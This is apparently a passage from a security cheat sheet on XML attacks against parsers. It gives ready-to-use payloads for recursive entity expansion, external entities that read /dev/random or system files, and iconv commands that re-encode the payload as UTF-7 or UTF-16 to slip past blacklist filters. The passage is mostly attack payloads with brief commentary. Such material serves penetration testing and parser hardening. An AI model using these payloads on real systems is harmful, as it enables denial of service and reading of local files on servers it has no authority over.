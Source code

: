A quadratic blowup attack is similar to a Billion Laughs attack;

medium-sized XML document with a couple of hundred kilobytes can require a couple of hundred MB to several GB of memory. When the attack is combined with some level of nested expansion an attacker is able to achieve a higher ratio of success.

#### XXE - Recursive General Entities

```xml
<!DOCTYPE data [
	<!ENTITY a "a&b;" >
	<!ENTITY b "&a;" >
]>

<data>&a;</data>
```

#### XXE - External General Entities

```xml
<?xml version='1.0'?>
<!DOCTYPE data [
<!ENTITY dos SYSTEM "file:///dev/random" >
]>
<data>&dos;</data>
```

The idea of this attack is to declare an external general entity and reference a large file on a network resource or locally (e.g. C:/pagefile.sys or /dev/random).

#### XXE - Using UTF-16 / UTF-7

**UTF.xml**
```xml
<!DOCTYPE data [
<!ELEMENT data (#PCDATA)>
<!ENTITY file SYSTEM "file:///sys/power/image_size">
]>
```
blacklisting countermeasures can probably bypassed by changing the default XML charset (which is UTF-8), to a different one, for example, UTF-16/UTF-7

```
$cat UTF.xml | iconv -f UTF-8 -t UTF-7 > UTF7_XXE.xml
$cat UTF.xml | iconv -f UTF-8 -t UTF-16 > UTF16_XXE.xml
```

**$cat UTF7_XXE.xml**
```
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE data +AFs
+ADwAIQ-ELEMENT data (+ACM-PCDATA)+AD4
+ADwAIQ-ENTITY file SYSTEM +ACI-file:///sys/power/image+AF8-size+ACIAPg
+AF0APg
+ADw-data+AD4AJg-file+ADsAPA-/data+AD4
```

